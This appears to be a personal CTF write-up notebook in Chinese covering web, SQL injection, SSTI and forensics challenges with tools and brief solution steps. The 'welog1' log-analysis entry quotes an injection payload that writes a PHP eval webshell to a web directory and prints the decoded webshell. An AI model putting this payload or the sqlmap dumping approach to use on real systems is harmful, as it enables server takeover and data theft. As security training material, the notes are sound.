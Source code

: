 # CTF WP

## [LitCTF 2023]就当无事发生

https://www.nssctf.cn/problem/3862

* 考点：.git泄露,信息收集
* 工具：github

根据题目提示信息可知只要回溯到之前的某次github提交即有可能获取敏感信息，可以根据git的特性，查看历史commit修改记录，通过搜索找到敏感字符串，即本题flag。

只能说不愧是杂项，这种方式的题第一次见

## [MoeCTF 2022]Sqlmap_boy

https://www.nssctf.cn/problem/3350

* 考点：sql注入
* 工具：sqlmap,burpsuit

浏览器F12查看源码，发现有提示，根据提示的sql格式对输入进行闭合操作，注意引号类型不同无法闭合；成功闭合后跳转到可注入连接，注意到有一个id变量可供注入，使用sqlmap构建命令；使用参数-dump直接输出数据库的所有具体表项内容，找到flag

sqlmap的-dump很好用，同时对于登录后的sql注入需要注意使用sqlmap时使用Cookie保持session
参考使用指南：
https://blog.csdn.net/qq_45719090/article/details/129241110
https://octobug.gitbooks.io/sqlmap-wiki-zhcn/content/

## [HDCTF 2023]LoginMaster

https://www.nssctf.cn/problem/3782

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解

## [第五空间 2021]yet_another_mysql_injection

https://www.nssctf.cn/problem/334

* 考点：sql注入,quine注入
* 工具：burpsuit

- [ ] 完全理解

## [LitCTF 2024]一个....池子？

https://www.nssctf.cn/problem/5606

* 考点：SSTI
* 工具：fenjing

- [ ] 完全理解

使用工具 `fenjing`，直接对可绕过链接进行操作，绕过成功后即可进行过命令操控

fenjing工具：https://github.com/Marven11/FenJing

## [2022蓝帽杯]手机取证1(初级)

https://www.nssctf.cn/problem/2443
https://forensics.didctf.com/challenges#%E6%89%8B%E6%9C%BA%E5%8F%96%E8%AF%81_1-41

* 考点：电子取证
* 工具：盘古石阅读器（题目提供）
* 直接使用题目提供的盘古石阅读器大概苹果测试的文件夹进行搜索即可，可以得到匹配的flag内容（图像分辨率）
  ![1738332888462](image/README/1738332888462.png)

## [2023陇剑杯]Wireshark1_1

https://www.nssctf.cn/problem/6359
https://forensics.didctf.com/challenges#Wireshark1_1-552

* 考点：流量分析
* 工具：wireshark
  使用wireshark查看流量包，可以通过长度和协议类型明显的看到异样的流量，![1738334014307](image/README/1738334014307.jpg)进一步追踪流并阅读明文内容可知确实为入侵流量，查看目的ip地址即得flag


## [2022蓝帽杯]网站取证_2

https://www.nssctf.cn/problem/2452 
https://forensics.didctf.com/challenges#%E7%BD%91%E7%AB%99%E5%8F%96%E8%AF%81_2-52

* 考点：PHP代码审计
* 工具：任意文本查看工具，PHP
通过审计阅读提供的代码源文件，可以发现数据库的登录密码使用了my_encrypt()这个函数，在encrypt.php这个文件中可以找到这个函数的具体内容，其将字符串进行了AES解密后进行base64解密得到明文密码，但是要注意，这里的php环境版本比较低，所以如果php配不好的话就需要手动实现代码中的步骤，我是手动实现，也可以得到结果
![1738335121566](image/README/1738335121566.jpg)
## [OtterCTF 2018]General Info
* 考点：内存取证
* 工具：Volatility（https://github.com/volatilityfoundation/volatility3）
本题考查对于内存取证工具的使用，通过Volatility对vmem文件进行分析，找到PC名和IP即可

## [应急响应]welog1

https://forensics.didctf.com/challenges#welog1-703

* 考点：日志分析,PHP审计
* 工具：文本查看工具，base64
分析给出的日志，可以发现在最后的几行中出现了敏感信息`fl4g`,其中一条日志为：
```
192.168.150.1 - - [10/Mar/2023:08:23:05 +0000] "GET /index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22%23 HTTP/1.1" 200 1194 "http://192.168.150.31:9999/index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22--%2B+" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"
```
将十六进制的内容写入了`/var/www/html/test2.php`这个文件，对十六进制的字符串进行解码后得得到下面的内容：
![1738479959107](image/README/1738479959107.jpg)

```bash
"<?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>"
```
这个是典型的一句话木马，攻击者可以通过`3b90d75de248ce55b66e8e30873b6000`进行连接，即为本题的答案

## [陇剑杯 2021]SQL注入

https://www.nssctf.cn/problem/295

## [SWPUCTF 2021 新生赛]easyupload1.0

https://www.nssctf.cn/problem/388

## [鹏城杯 2022]简单包含

https://www.nssctf.cn/problem/2422

## [FSCTF 2023]是兄弟，就来传你の🐎！

https://www.nssctf.cn/problem/4561

## [HNCTF 2022 WEEK2]easy_include

https://www.nssctf.cn/problem/2948


## [CISCN 2023 华北]ez_date 

https://www.nssctf.cn/problem/4096

## [GHCTF 2024 新生赛]理想国 

https://www.nssctf.cn/problem/5145

## [CISCN 2019华东南]Web4 

https://www.nssctf.cn/problem/6

## [CISCN 2023 华北]pysym 

https://www.nssctf.cn/problem/4098